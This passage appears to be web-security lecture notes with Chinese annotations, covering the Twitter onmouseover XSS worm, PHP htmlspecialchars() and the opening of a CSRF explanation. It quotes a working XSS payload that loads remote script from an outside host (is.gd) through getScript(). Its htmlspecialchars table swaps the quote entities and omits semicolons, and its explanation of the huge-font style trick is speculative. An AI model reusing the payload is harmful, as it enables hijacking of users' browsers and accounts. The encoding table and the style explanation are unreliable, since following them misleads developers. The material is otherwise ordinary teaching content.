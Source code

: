   ```html
  <a href="http://t.co@"onmouseover=" $.getScript('
  	http:\u002f\u002fis.gd\u002ff19A7')"/">...</a>
  ```

> 这是一个XSS攻击的例子，攻击者利用Twitter的旧sanitisation算法中一个漏洞，通过在推特文本中注入JavaScript代码来进行攻击。在这个例子中，攻击者在URL中嵌入了一个JavaScript代码，该代码在用户将鼠标悬停在链接上时触发，利用了JavaScript的onmouseover事件。该代码使用jQuery库中的getScript()函数来加载远程脚本，这里是一个短网址（is.gd/f19A7），可能会包含恶意代码。因为旧sanitisation算法只过滤了`<script>`标签而没有过滤双引号，所以攻击者成功地将这个恶意代码注入了推特文本中，并在用户鼠标悬停时触发。

## 1.24 Real-world XSS: From bug to worm

- 此处继续上面的例子

- Anyone putting mouse over such a twitter feed will run JavaScript that puts a similar message in their own feed.

- The actual attack used:

  `http://t.co/@"style="font-size:9999999999px; "onmouseover=".../`

- Why the style part?

> 攻击style的原因可能是：当用户鼠标悬停在链接上时，JavaScript代码将被触发，通常会引导用户到一个包含恶意代码的网站。由于字体太大，用户可能无法关闭或隐藏弹出窗口，从而被迫浏览恶意网站，这可能导致更多的安全问题和攻击。

## 1.25 PHP HTML sanitisation

`htmlspecialchars()` removes characters that cause problems in HTML:

`&` becomes `&amp`

`<` becomes `&lt`

`>` becomes `&gt`

`'` becomes `&quot`

`"` becomes `&#039`

Not a catch-all solution!

## 1.26 Cross-site request forgery (CSRF)

![csrf](csrf.png)

1. Victim is logged into vulnerable web site
2. Victim visits malicious page on attacker web site
3. Malicious content is delivered to victim
4. Victim sends a request to the vulnerable web
